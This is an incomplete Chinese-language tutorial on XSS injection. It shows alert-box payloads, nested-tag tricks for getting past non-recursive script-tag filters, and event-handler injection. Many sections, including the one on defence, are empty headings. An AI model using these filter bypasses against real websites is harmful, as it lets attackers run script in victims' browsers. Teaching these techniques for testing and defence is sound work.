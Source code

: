 # 02.XSS

##2.1 XSS介绍

###2.1.2 XSS可能出现的地方

##2.2 XSS注入技巧

 **只提供思路，不适用所有情况，根据过滤规则的不同，选择构造不同的playload。**

###2.2.1 屌丝篇
  
####2.2.1.1直接上菜

```javascript
<script>alert('xss');</script>
```

如果你的系统可以让用户那么直接执行javascript脚本，那你就等着哭吧。

####2.2.1.2 过滤script标签

ok，稍微有一丁点安全意识的人都会把script标签过滤掉，过滤的规则会很多，注入一定要根据过滤的规则不同而选择不同的playload，这里尝试讲解两种情况的过滤：
  
  * 过滤script标签本身，内容不过滤
  * 过滤script标签以及包含的所有内容

加入playload如下：
```html
<script>alert('xss');</script><p>正常文档</p>
```

那么第一种情况过滤的结果为：
```html
alert('xss');<p>正常文档</p>
```

而第二种情况过滤的结果为：
```html
<p>正常文档</p>
```

如果系统没有对用户输入进行递归的xss过滤的话，那么第一种情况，我们的playload可以是：
```html
<scr<script>ipt>alert('xss');</scr</script>ipt>
```

而第二种情况，可以尝试这种技巧：
```html
<scr<script></script>ipt>alert('xss');</scr<script></script>ipt>
```

####2.2.1.3 标签事件注入

标签的事件**on(event)**是很容易被利用作为playload的。例如：
```html
<p onmouseover="alert('xss');">鼠标移动到这里触发js脚本！</p>
```

如果想让脚本自动执行，可以利用onload,onunload,onerror等时间，可以利用onfouse事件，例如:

```html
<input onfouse="alert('xss')" autofouse />
```

如果系统对标签事件进行了过滤，那么可以针对过滤的规则进行playload，例如**2.2.1.2**提到的技巧。

####2.2.1.4 /代替空格

####2.2.1.5 伪协议javascript:alert('xss')

####2.2.1.6 为协议data:text/html

####2.2.1.7 其他可以利用的标签

  * iframe
  * meta
  * style
  * embed
  * flash
  * applet
  * ...

###2.2.2 高帅富篇

##2.3 XSS防注

##2.4 XSS平台：beef-xss

参考文档：OWASP ,维基百科，百度百科
